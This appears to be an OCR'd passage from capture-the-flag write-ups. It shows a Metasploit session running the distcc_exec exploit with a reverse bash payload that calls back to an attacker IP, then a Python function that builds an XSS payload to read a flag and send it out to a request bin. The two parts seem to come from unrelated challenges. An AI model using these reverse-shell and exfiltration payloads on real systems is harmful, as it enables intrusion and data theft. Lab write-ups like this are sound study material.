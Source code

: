 ```
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

msf6 > use 0
msf6 exploit(unix/misc/distcc_exec) > set payload payload/cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > set lhost 10.10.14.36
lhost => 10.10.14.36
msf6 exploit(unix/misc/distcc_exec) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] 10.10.10.3:3632 - stderr: #: 97: Bad file descriptor
[*] 10.10.10.3:3632 - stderr: #: /dev/tcp/10.10.14.36/4444: No such file or directory
[*] Exploit completed, but no session was created.
```

And... Nothing as well. Seems like SMB was the path to get to root for this box. Overall was a pretty fun box to exploit manually!

```python
def get_flag(request_bin):
    # Prepare the payload to send a GET request
    xml_http_request = 'var xmlHttp = new XMLHttpRequest();xmlHttp.open(\\"GET\\",\\"/alien\\",false);xmlHttp.send();'

    # Extracting the flag
    xml_http_flag = 'let flag = xmlHttp.responseText.substring((xmlHttp.responseText).search(\\"CHTB{\\"),(xmlHttp.responseText).search(\\"}\\")+1);'
    
    # Crafting the exfiltration url
    exfil_request = xml_http_flag + 'document.location=\\"' + request_bin + '\\" + flag'

    # Submitting the payload
    execute_xss(xml_http_request + exfil_request)
```
